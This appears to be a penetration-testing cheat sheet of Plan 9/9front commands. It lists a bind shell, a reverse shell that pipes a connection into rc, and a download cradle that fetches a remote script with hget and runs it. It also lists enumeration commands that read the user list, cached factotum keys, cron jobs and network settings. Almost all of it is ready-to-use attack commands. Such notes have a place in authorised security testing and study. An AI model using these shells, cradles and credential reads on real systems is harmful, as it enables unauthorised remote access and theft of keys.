 **Bind Shell**

    aux/listen1 -t tcp!*!1334 /bin/rc
    nc 192.168.9.3 1334

**Reverse Shell**

    srv -q tcp!192.168.1.222!1334 reverse_shell; while (i=`{read -n 1 /srv/reverse_shell}) { echo $i | rc >> /srv/reverse_shell }; rm /srv/reverse_shell
    nc -nlvp 1334

**Download Cradles**

    webfs; hget http://9front.lan/hello.rc | rc

**Users / Groups list**

    cat /adm/users

**Cached User keys**

    cat /mnt/factotum/ctl

**Crons**

    ls -l /cron/*/cron

**Network Settings**

    cat /net/ndb

**Other UNIX Commands to Plan 9 Translation:**<br />
https://9p.io/wiki/plan9/Unix_to_Plan_9_command_translation/index.html

